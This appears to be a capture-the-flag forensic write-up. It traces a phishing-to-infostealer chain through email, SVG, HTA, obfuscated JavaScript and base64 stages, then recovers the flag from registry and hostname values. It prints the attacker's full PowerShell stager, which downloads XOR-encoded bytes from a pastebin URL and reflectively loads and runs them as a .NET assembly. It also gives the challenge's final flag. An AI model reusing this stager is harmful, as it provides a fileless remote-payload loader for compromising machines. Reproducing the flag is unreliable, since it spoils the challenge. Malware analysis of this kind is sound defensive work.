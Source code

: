 # [Forensic]NostalgiaS

The CIRT received an IR request from FAIZ Company regarding their accountant, Mr. Kadoya. Threat Intelligence reported that his sensitive data was exfiltrated and sold on the black market. Digital evidence from his workstation was collected for analysis. Examine it to determine the scope, impact, and root cause of the compromise.

The challenge provided `challenge.zip`, extracted we got `.ad1` file. Overall, we have find out flag from this `.ad1` file.

## Solution

Using FTK Imager, navigate to `Users\kadoya\...\Outlook`. Here we got mail that kadoya received, that mail contain a file `Moly.zip` which is probably a dangerous file and the password for unzip is `playmoly2025`.

Unzip, we had `playmoly.svg`, I got rick rolled here and forced to learn Trình. Nevermind, just view the source and we can see a link for downloading `FlashInstaller.hta`. Follow up the URL, we navigate to `something.txt`, it contains the obfuscated JavaScript code using `obfuscator.io`. Just deobfuscate it, and continue naviagate to `secr3t.txt` URL, using Cyberchef to decode from Base64 and we got a script

```shell
$AssemblyUrl = "https://pastebin.com/raw/90qeYSHA"
$XorKey = 0x24
$TypeName = "StealerJanai.core.RiderKick"
$MethodName = "Run"

try {
    $WebClient = New-Object System.Net.WebClient
    $encodedContent = $WebClient.DownloadString($AssemblyUrl)
    $WebClient.Dispose()

    $hexValues = $encodedContent.Trim() -split ',' | Where-Object { $_ -match '^0x[0-9A-Fa-f]+$' }

    $encodedBytes = New-Object byte[] $hexValues.Length
    for ($i = 0; $i -lt $hexValues.Length; $i++) {
        $encodedBytes[$i] = [Convert]::ToByte($hexValues[$i].Trim(), 16)
    }

    $originalBytes = New-Object byte[] $encodedBytes.Length
    for ($i = 0; $i -lt $encodedBytes.Length; $i++) {
        $originalBytes[$i] = $encodedBytes[$i] -bxor $XorKey
    }

    $assembly = [System.Reflection.Assembly]::Load($originalBytes)

    if ($TypeName -ne "" -and $MethodName -ne "") {
        $targetType = $assembly.GetType($TypeName)
        $methodInfo = $targetType.GetMethod(
            $MethodName,
            [System.Reflection.BindingFlags]::Static -bor [System.Reflection.BindingFlags]::Public
        )
        $methodInfo.Invoke($null, $null)
    }

} catch {
    exit 1
}
```

This script will get encrypted hex data from Pastebin, decode it and run on victim. This script is extracted from it but removed the running part (only decoding part is remained)

```powershell
$AssemblyUrl = "https://pastebin.com/raw/90qeYSHA"
$XorKey = 0x24
$out = Join-Path $PSScriptRoot "payload_decoded.bin"

try {
    $wc = New-Object System.Net.WebClient
    $raw = $wc.DownloadString($AssemblyUrl)
} finally {
    if ($wc) { $wc.Dispose() }
}

$hex = $raw.Trim() -split ',' | Where-Object { $_ -match '^\s*0x[0-9A-Fa-f]{1,2}\s*$' } |
       ForEach-Object { $_.Trim() }

[byte[]]$enc = New-Object byte[] $hex.Count
for ($i=0; $i -lt $hex.Count; $i++) {
    $enc[$i] = [Convert]::ToByte($hex[$i], 16)
}

[byte[]]$dec = New-Object byte[] $enc.Length
for ($i=0; $i -lt $enc.Length; $i++) {
    $dec[$i] = $enc[$i] -bxor $XorKey
}

[System.IO.File]::WriteAllBytes($out, $dec)
Write-Host "[+] Decoded to: $out"

Get-FileHash $out -Algorithm SHA256 | Format-List
"{0} bytes" -f $dec.Length
($dec[0..([Math]::Min(63,$dec.Length-1))] | ForEach-Object { "{0:X2}" -f $_ }) -join ' '
```

Usage

```shell
powershell -NoProfile -ExecutionPolicy Bypass -File .\DecodeOnly-Pastebin.ps1
```

Finally we got a file which is written using .NET, we use dnSpy to decompile

![](https://blog.kakaocdn.net/dna/z1JYm/dJMb9OAHfaI/AAAAAAAAAAAAAAAAAAAAAHAeBcX73PFCA8FDddPJ6SwU-gSjm_bYhZeXWXWdvN-8/img.png?credential=yqXZFxpELC7KVnFOS48ylbz2pIh7yKj8&expires=1761922799&allow_ip=&allow_referer=&signature=xDvDbaPshWlt6LYzeNELQYv%2F1Ic%3D)

Using reverse skill, we got a flag holder

```
CSCV2025{your_computer_<Machine Name>_has_be3n_kicked_by<Registry Value>}
```

Now just find out what is <Machine Name> and <Registry Value>. From the C# code we know that it will read from `SOFTWARE\\hensh1n`. Using Registry Viewer to view the `NTUSER.dat`. The <Registry Value> must be `HxrYJgdu`

For the <Machine Name>, just view in `System32\SYSTEM`: `DESKTOP-47ICHL6`

## Craft the flag

**Flag:** CSCV2025{your_computer_DESKTOP-47ICHL6_has_be3n_kicked_byHxrYJgdu}
